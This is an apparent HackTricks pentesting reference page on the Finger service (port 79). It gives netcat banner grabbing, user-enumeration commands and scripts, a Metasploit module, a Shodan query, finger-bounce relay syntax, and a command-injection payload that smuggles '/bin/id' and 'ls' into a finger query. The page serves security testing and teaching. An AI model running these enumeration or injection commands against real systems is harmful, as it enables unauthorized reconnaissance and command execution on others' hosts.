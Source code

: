 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively you can use **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

- `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{{#include ../banners/hacktricks-training.md}}

